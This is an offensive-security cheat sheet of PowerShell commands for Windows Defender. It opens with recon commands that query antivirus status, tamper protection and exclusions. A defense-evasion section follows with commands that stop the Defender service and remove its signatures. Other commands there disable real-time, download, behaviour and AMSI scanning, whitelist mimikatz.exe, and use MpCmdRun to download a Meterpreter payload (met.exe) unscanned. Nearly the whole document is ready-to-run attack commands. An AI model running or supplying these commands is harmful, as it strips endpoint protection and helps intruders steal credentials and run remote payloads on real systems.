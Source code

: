 # pwsh
% windows, security, antivirus, defender

#plateform/windows #target/local #cat/RECON/SECURITY/DEFENDER #tag/powershell 



## defender - knowledge
```powershell
https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1
https://wirediver.com/disable-windows-defender-in-powershell/
```


## defender - get antivirus
```powershell
wmic.exe /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

## defender - get powershell commands
```powershell
Get-Command -Module Defender
```

## defender - get service Status
```powershell
(Get-Service windefend).Status
```

## defender - get status
```powershell
Get-MpComputerStatus
```

## defender - get defensive modules status
```powershell
Get-MpComputerStatus | Select RealTimeProtectionEnabled, IoavProtectionEnabled, Antispyware | FL
```

## defender - get tamper protection status
```powershell
Get-MpComputerStatus | Select IsTamperProtected, RealTimeProtectionEnabled | FL
```

## defender - get exclusions path
```powershell
Get-MpPreference | Select-Object -Property ExclusionPath, ExclusionExtension
```

## defender - get exclusions extension
```powershell
Get-MpPreference | Select-Object  -Property ExclusionExtension
```


#cat/DEFENSE-EVASION/SECURITY/DEFENDER

## Defender - stop service
```powershell
sc.exe config WinDefend start= disabled; (Get-Service windefend).stop
```

## Defender - Remove signatures (if Internet connection is present, they will be downloaded again)
%ProgramFiles%\Windows Defender\MpCmdRun.exe
```powershell
.\MpCmdRun.exe -RemoveDefinitions -All
```

## Defender - disable All
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true;  Set-MpPreference -DisableScriptScanning $true
```

## Defender - disable Real Time Monitoring 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Defender - Disable scanning for downloaded or attachments
```powershell
Set-MpPreference -DisableIOAVProtection $true
```

## Defender - Disable behaviour monitoring
```powershell
Set-MPPreference -DisableBehaviourMonitoring $true
```

## Defender - Disable AMSI
```powershell
Set-MpPreference -DisableScriptScanning $true
```


## Defender - Add path to exclusions
```powershell
$p = "<path|c:\windows\temp>" ; Add-MpPreference -ExclusionPath $p -AttackSurfaceReductionOnlyExclusions $p
```


## Defender - Add process to exclusions (1)
```powershell
$p = "<path|c:\windows\temp\mimikatz.exe>" ; Add-MpPreference -ExclusionProcess $p -AttackSurfaceReductionOnlyExclusions $p
```

## Defender - Add process to exclusions (2)
```powershell
$p = "<binary|mimikatz.exe>" ; Add-MpPreference -ExclusionProcess $p -AttackSurfaceReductionOnlyExclusions $p
```

## Defender - Add extension to exclusions
```powershell
Set-MpPreference -ExclusionExtension "<extension|ps1>"
```

## Defender - Download without triggering scan
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```